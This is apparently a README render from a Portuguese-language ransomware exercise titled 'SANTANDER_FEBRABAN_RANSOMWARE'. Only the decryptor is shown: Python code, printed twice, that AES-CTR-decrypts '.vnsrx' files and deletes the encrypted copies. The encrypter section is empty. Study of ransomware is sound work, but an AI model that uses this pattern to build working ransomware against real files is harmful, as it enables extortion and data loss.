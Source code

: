 # SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER


DECRYPTER

'''python
import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()

   '''c
   import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()
